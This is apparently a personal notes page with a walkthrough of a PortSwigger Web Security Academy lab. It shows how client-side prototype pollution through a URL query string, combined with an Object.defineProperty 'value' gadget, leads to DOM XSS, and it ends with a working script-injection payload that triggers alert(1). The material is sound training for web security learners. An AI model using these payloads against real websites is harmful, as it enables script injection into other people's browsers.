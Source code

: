 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/prototype-pollution-via-api/lab-4/"}
---
```



---

## Objective: Get DOM XSS

Let's test for the source using the usual payload

```
/?__proto__[foo]=bar
```

Verify it in the console

```
Object.prototype.foo
```

![Pasted image 20250331024618.png](/img/user/Images/Pasted%20image%2020250331024618.png)

Okay that worked, now we need to find a gadget, check out the sources file. We have one noticeable block

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

So the usual gadget `trasport_url` cannot being used this time because it is defined from the `config` object. 

In the next line, we see `Object.defineProperty` method is used to make the `transport_url` property unconfigurable and unwritable. Fortunately, just like the `fetch` API, the method doesn't explicitly define an **optional objects**. In this case, its the `value` property.

We can use the `value` property as our gadget to be polluted and the `script` element as our sink

#### Exploit

We can test our payload first

```
/?__proto__[value]=bar
```

Now, we check if the `script` tag has appeared

![Pasted image 20250331025938.png](/img/user/Images/Pasted%20image%2020250331025938.png)

Nice, that worked. Now we just trigger an alert

```
/?__proto__[value]=data:,alert(1);
```


![Pasted image 20250331030041.png](/img/user/Images/Pasted%20image%2020250331030041.png)



